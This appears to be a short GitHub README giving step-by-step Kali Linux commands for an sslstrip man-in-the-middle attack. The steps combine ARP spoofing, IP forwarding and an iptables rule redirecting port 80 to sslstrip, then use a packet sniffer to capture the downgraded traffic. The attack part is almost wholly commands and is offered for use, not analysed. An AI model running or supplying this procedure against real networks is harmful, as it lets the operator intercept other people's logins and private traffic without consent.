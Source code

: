 # DOWNGRADING HTTPS TO HTTP


To downgrade the **https** to **http** you can use a tool **sslstrip** developed by **moxie0** you can see the offial [Github](https://github.com/moxie0/sslstrip) repo for more details and download it.


## RUN:

1. First flush the iptables

```
root@kali:~# iptables --flush

```

2. Use the **arp_spoofer** tool to do the attack :

```
root@kali:~# python arp_spoof.py

```

3. Enable the port forwarding to act as a router

```
root@kali:~# iptables --flush
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward

```

3. Run the sslstrip :

```
root@kali:~# sslstrip

```

4. Since sslstrip runs the port bydefault **10000** and we recives packets on **80** we need to forward it **10000**

```
root@kali:~# iptables --flush
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

```

5. Now once sslstrip is set up, now you can use the **packet_sniffer** to sniff the packets.

```
root@kali:~# python packet_sniffer.py

```

## SCREENSHOT

![](img/ssl.png)

